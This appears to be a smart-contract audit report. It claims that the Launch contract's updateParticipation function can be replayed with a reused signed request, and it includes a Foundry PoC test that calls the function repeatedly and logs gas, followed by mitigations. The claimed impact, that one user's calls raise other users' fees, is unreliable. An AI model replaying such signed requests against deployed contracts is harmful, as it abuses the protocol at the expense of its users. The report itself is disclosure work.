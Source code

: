 Bald Crimson Alligator

Medium

# Malicious user causing griefing attack on `Launch`.

### Summary

`Launch::updateParticipation` allows update requested token amount for existing participation. However, wicked user could spamming this function at high frequency making the gas associated with the function high. This is possible since there is no check for replay `newLaunchParticipationId` meaning the same `newLaunchParticipationId` can used over and over again making it easy for the wicked user to spam the function.

### Root Cause

1. Lack of payment of fees for updating requested amount
2. Lack of check if the wicked user can update more tha twice or three times
3. Lack of check for replay `newLaunchParticipationId`

### Internal Pre-conditions

1. Lack of check for replay `newLaunchParticipationId`
2. The function lacks payment of fees for updating

### External Pre-conditions

None

### Attack Path

1. A wicked user calls `Launch::participate` to participate in a `ACTIVE` in a launch group using the request generated by Rova backend.
2. The wicked user calls `Launch::updateParticipation` to update his requested token amount for existing participation using the request generated by Rova backend, provided the `finalizesAtParticipation` is false, `endsAt` has not passed and the maximum amount has not been reached.
3. If `endsAt` has not passed, the wicked user calls `Launch::updateParticipation` again using the same request generated by Rova backend since there is no payment of fees for updating and check if the request(`newLaunchParticipationId`) is still valid.
4. The wicked user abuse the function by calling it multiple times and at a frequency(probably using a bot).

### Impact

Increase in the gas cost associated with `Launch::updateParticipation` such that a real user will have to pay a higher fee when `Launch::updateParticipation` is called.

The Logs of the PoC below shows the gas firstly decreases and start to increase after the third call. If the function is spammed at very high frequency, the gas will pass the initial gas cost.

### PoC

Make the following changes in `LaunchTestBase::_createParticipationRequest`

1. Edit `tokenAmount` to `500 * 10 ** launch.tokenDecimals(),`.

Paste the following code snippet in `LaunchUpdateParticipationTest`.

```javascript
    function test_UpdateParticipation_GriefingAttack() public {
        vm.txGasPrice(1);
        // Prepare update participation request
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(500);
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user1);
        uint256 updatedCurrencyAmount =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedCurrencyAmount);

        // Expect ParticipationUpdated event
        vm.expectEmit();
        emit ParticipationUpdated(
            updateRequest.launchGroupId,
            updateRequest.newLaunchParticipationId,
            testUserId,
            user1,
            updateRequest.tokenAmount,
            address(currency)
        );

        // first calling
        uint256 gasStart = gasleft();
        launch.updateParticipation(updateRequest, updateSignature);
        uint256 gasEnd = gasleft();

        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas cost of the first: ", gasUsedFirst);

        // Verify update
        // ParticipationInfo memory newInfo = launch.getParticipationInfo(updateRequest.newLaunchParticipationId);
        // _verifyParticipationInfo(newInfo, updateRequest);

        vm.stopPrank();

        // Second calling
        vm.startPrank(user1);
        uint256 updatedCurrAmount =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedCurrAmount);

        uint256 gasStartTwo = gasleft();
        launch.updateParticipation(updateRequest, updateSignature);
        uint256 gasEndTwo = gasleft();

        uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
        console.log("Gas cost of the Second: ", gasUsedSecond);
        vm.stopPrank();

        // Third calling
        vm.startPrank(user1);
        uint256 updatedCurryAmount =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedCurryAmount);

        uint256 gasStartThree = gasleft();
        launch.updateParticipation(updateRequest, updateSignature);
        uint256 gasEndThree = gasleft();

        uint256 gasUsedThird = (gasStartThree - gasEndThree) * tx.gasprice;
        console.log("Gas cost of the Three: ", gasUsedThird);
        vm.stopPrank();

        //Fourth Calling
        vm.startPrank(user1);
        uint256 updatedCurr =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedCurr);

        uint256 gasStartFourth = gasleft();
        launch.updateParticipation(updateRequest, updateSignature);
        uint256 gasEndFourth = gasleft();

        uint256 gasUsedFourth = (gasStartFourth - gasEndFourth) * tx.gasprice;
        console.log("Gas cost of the Fourth: ", gasUsedFourth);
        vm.stopPrank();

        // Five Calling
        vm.startPrank(user1);
        uint256 updatedCur =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedCur);

        uint256 gasStartFive = gasleft();
        launch.updateParticipation(updateRequest, updateSignature);
        uint256 gasEndFive = gasleft();

        uint256 gasUsedFive = (gasStartFive - gasEndFive) * tx.gasprice;
        console.log("Gas cost of the Five: ", gasUsedFive);
        vm.stopPrank();

        // Sixth calling
                vm.startPrank(user1);
        uint256 updatedAmount =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedAmount);

        uint256 gasStartSixth = gasleft();
        launch.updateParticipation(updateRequest, updateSignature);
        uint256 gasEndSixth = gasleft();

        uint256 gasUsedSixth = (gasStartSixth - gasEndSixth) * tx.gasprice;
        console.log("Gas cost of the Sixth: ", gasUsedSixth);
        vm.stopPrank();
    }
```

### Mitigation

1. Add a modifier that will charge fees for updating requested token(This is beneficial to the protocol).
2. Enforce a check to disallow the replay of `newLaunchParticipationId` just as in https://github.com/dpm-labs/rova-contracts/blob/b03e4ede50488a2000bb73d602e28ee4f6c0941f/src/Launch.sol#L237